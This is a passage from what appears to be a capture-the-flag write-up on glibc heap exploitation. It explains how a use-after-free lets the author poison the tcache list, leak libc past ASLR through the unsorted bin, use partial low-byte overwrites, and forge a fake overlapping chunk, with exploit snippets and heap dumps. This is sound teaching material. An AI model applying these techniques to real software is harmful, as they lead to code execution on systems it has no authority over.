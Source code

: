 ```
            unsortbin: 0x0
(0x60)   tcache_entry[4](2): 0x55555555c2c0 --> 0x55555555c260  <-- both chunks in tcache list

```

This is something exploitable because I still have a pointer to edit 2, even though it’s been freed. This means I can change the tcache linked list by editing 2.

### Get libc on Heap

#### Strategy

The path from this small vulnerability to code execution is not obvious. Because of ASLR, the first thing I’ll need to do is leak something from libc. To do this, first I’ll need to get something from libc onto the heap. When I free these small bins, they are going into tcache, which is a bunch of singly-linked lists starting in libc, and then each item on the list container the pointer to the next item. But the other types are double-linked lists. That means that each node points to both the node after it *and* the node before it, so the first node will have the address of the start in libc. I can get something into the unsorted bin by filling tcache with 7 bins of a given size, and then freeing one more.

This will take a ton of bouncing around when I’m limited to only two “files” at one time by the program.

#### Spacing

ASLR and Full RELRO will change all but the low 12-bits for each word. I can run the program over and over, and as long I as I define the same chunks in the same order, the low 12-bit of each address will be the same. This means that I can find places where I can overwrite just the low byte in an address, and therefore change it without knowing the high bytes. This also means there will be times where I want to start in a certain space. If I create a fake chunk at 0x2e0, and I can’t overwrite a pointer that currently points to 0x320. But If I just add a small chunk to the heap at the start and shift those to 0x310 and 0x350, now I can just overwrite the low 0x50 with 0x10.

#### Fake Chunk

I’m going to create a fake overlapping chunk that can write through the metadata of the next chunk. I can pick up in the example above, but instead of the first chunk writing nothing of interest, I’ll have it write something that looks like heap metadata, for example, a 0x61:

```

add('A', 0x40, p64(0)*5 + p64(0x61) + p64(0))   # A at 260 in f1
add('B', 0x40)                                  # B at 2b0 in f2

```

When I run this, the heap looks like:

```

0x55555555c250: 0x0000000000000000      0x0000000000000051  <-- A meta
0x55555555c260: 0x0000000000000000      0x0000000000000000
0x55555555c270: 0x0000000000000000      0x0000000000000000
0x55555555c280: 0x0000000000000000      0x0000000000000061  <-- data, but looks like heap meta
0x55555555c290: 0x0000000000000000      0x000000000000000a
0x55555555c2a0: 0x0000000000000000      0x0000000000000051  <-- B meta
0x55555555c2b0: 0x0000000000000a78      0x0000000000000000  <-- B data
0x55555555c2c0: 0x0000000000000000      0x0000000000000000
0x55555555c2d0: 0x0000000000000000      0x0000000000000000
0x55555555c2e0: 0x0000000000000000      0x0000000000000000
0x55555555c2f0: 0x0000000000000000      0x0000000000020d11  <-- end of heap

```
